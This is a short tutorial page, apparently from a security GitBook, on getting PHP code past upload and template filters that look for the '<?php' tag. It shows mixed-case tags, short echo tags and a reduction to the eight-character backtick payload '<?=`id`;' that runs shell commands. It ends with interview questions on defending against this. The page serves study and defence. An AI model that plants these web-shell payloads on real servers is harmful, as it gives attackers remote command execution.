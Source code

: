 # Simple bypass PHP

The common way of writing PHP is start with `<?` and ends with `?>`

Example:

```
<?php phpinfo();?>
```

When attempting to upload file or modify templates, often it will check if the content starts with \`\<?php\` tags

So what are the ways to bypass it?

## Method 1

Use upper and lower case

```
<?pHp system('id');?>
```

## Method 2

Replace the php starting tag with `=`

E.g.

```
<?= system('id');?>
```

## PHP Reduction Challenge: Use 8 characters to run the `id` command

Origin Command

```
<?php system('id');?>  // 21 character
```

### First reduction: PHP tags allow for being unclosed.

PHP has a feature where PHP tags are allowed to be unclosed. This means that you can use `<?php` without using `?>`, and it won't affect the execution of the PHP code.

Utilizing this feature, we can reduce the previous code as follows.

```
<?php system('id'); // 19 character
```

### Second reduction: PHP short tags.

In addition to the standard way of writing PHP tags, there are two other forms, also known as short tags.

```
<?= ?>
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?= system('id'); // 17 character
```

### Third reduction: Changing the method of executing the command.

Since our goal is to successfully execute the command, is there a method that can shorten the code for executing the command? For example, is there a function that is shorter than `system`?

PHP, being a large language, of course, has functions shorter than `system` that can also execute commands.

```
eval()
popen()
exec()
....
```

These are still not short enough. The shortest of all is the backticks `` ` ` ``. PHP can execute commands using backticks.

```
system('id')  =>  `id`
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?=`id`;
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Interview Question

It is interesting to see how the backticks can excute shell commands, does backticks bind to `system` function or `shell_exec` function?

Will disable this 2 functions preventing backtick from executing? If not how do you prevent it?



## Author&#x20;

[Ikonw](https://github.com/Ik0nw/)
